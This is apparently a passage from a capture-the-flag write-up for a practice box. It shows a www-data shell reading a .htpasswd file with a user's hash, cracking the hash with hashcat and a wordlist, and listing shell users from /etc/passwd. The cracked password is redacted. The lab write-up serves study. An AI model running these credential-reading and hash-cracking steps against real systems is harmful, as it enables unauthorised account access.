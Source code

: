 # Privilege Escalation
On the home directory of the webserver **.htpasswd** file was found containing username and hash.
```bash
www-data@osboxes:/var/www/html$ ls -la                                                                                                                
total 72                                                                                                                                              
drwxr-xr-x 6 www-data www-data  4096 Mar 31 09:32 .                                                                                                   
drwxr-xr-x 3 root     root      4096 Mar  9 19:56 ..                                                                                                  
-rw-r--r-- 1 www-data www-data    44 Mar  9 20:09 .htpasswd                                                                                           
drwxr-xr-x 5 www-data www-data  4096 Mar  9 20:10 backup                                                                                              
drwxr-xr-x 2 www-data www-data  4096 Mar  9 20:10 grid                                                                                                
-rw-r--r-- 1 www-data www-data 11321 Mar  9 20:10 index.html               
-rw-r--r-- 1 www-data www-data  6399 Mar  9 20:10 index.php                
drwxr-xr-x 2 www-data www-data  4096 Mar  9 20:10 javascripts              
drwxr-xr-x 2 www-data www-data  4096 Mar  9 20:10 less                                                                                                
-rw-r--r-- 1 www-data www-data   435 Mar 31 09:34 message.txt              
-rw-r--r-- 1 www-data www-data  2339 Mar  9 20:10 readme.md                
-rw-r--r-- 1 www-data www-data 10371 Mar  9 20:10 style.css                
-rw-r--r-- 1 www-data www-data    76 Mar 31 09:34 test.php 
```

## Content of .htaccess
```bash
www-data@osboxes:/var/www/html$ cat .htpasswd                              
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1 
```

## Cracking the hash using hashcat
```bash
reddevil@ubuntu:~/Documents/tryhackme/debug$ hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...                                               
.........[snip]..........

$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1:<james-redacted-password>

.............[snip]......
```

## Listing users on the box
```bash
www-data@osboxes:/var/www/html$ cat /etc/passwd | grep -i 'sh$'            
root:x:0:0:root:/root:/bin/bash                                            
james:x:1001:1001::/home/james:/bin/bash  
```
james is a user on the box with login shell as bash.
